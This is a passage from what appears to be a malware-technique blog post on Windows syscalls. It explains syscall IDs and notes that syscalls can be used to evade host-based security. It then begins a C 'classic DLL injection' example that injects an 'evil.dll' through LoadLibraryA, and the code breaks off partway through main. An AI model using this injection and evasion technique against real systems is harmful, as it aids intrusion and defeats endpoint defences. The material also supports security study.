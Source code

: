 Moreover, syscalls can be utilized to circumvent host-based security solutions.      

### syscall ID

Every syscall has a special syscall number, which is known as syscall ID or system service number. Let's go to see an example. Open `notepad.exe` via `x64dbg` debugger, we can see that `NtAllocateMemory` syscall will have a `syscall ID = 18`:     

![trick](/assets/images/99/2023-06-08_11-28.png){:class="img-responsive"}      

![trick](/assets/images/99/2023-06-08_11-28_1.png){:class="img-responsive"}      

But, it is important to be aware that sycall IDs will differ depending on the OS (e.g. `Windows 10` vs `Windows 7` or `Windows 11`) and within the version itself (e.g. `Windows 10 1903` vs `Windows 10 1809`):     

![trick](/assets/images/99/2023-06-08_11-26.png){:class="img-responsive"}      

### practical example

Let's go see a real example. Just take a look at an example that is similar to the example from my post about [classic DLL injection](/tutorial/2021/09/20/malware-injection-2.html):       

```cpp
/*
hack.c
classic DLL injection example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")

typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
  HANDLE             ProcessHandle,
  PVOID              *BaseAddress,
  ULONG              ZeroBits,
  PULONG             RegionSize,
  ULONG              AllocationType,
  ULONG              Protect
);

char evilDLL[] = "C:\\temp\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  HMODULE ntdll = GetModuleHandle("ntdll");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
```